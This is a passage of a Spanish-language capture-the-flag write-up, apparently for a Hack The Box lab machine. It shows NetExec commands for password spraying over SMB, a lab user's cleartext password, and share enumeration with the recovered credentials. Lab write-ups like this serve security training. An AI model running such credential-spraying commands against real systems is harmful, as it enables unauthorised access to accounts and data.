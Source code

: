## Password Spraying

Procederemos a realizar un _**Password Spraying**_ con el listado de usuarios y contraseñas que disponemos para verificar si disponemos de algunas credenciales válidas.

Verificamos que hemos validado y hemos logrado obtener las credenciales del usuario `oscar@sequel.htb`.

```bash
nxc smb 10.10.11.51 -u users.txt -p passwords.txt --continue-on-success
```

<figure><img src="../../.gitbook/assets/3479_vmware_fhBs8FAS1p.png" alt=""><figcaption></figcaption></figure>

Revisaremos si disponemos de acceso a algún nuevo recurso compartido SMB, en este caso, el usuario dispone de los mismos permisos del usuario `rose@sequel.htb`.

```bash
nxc smb 10.10.11.51 -u 'oscar' -p '86LxLBMgEWaKUnBG'

nxc smb 10.10.11.51 -u 'oscar' -p '86LxLBMgEWaKUnBG' --shares
```
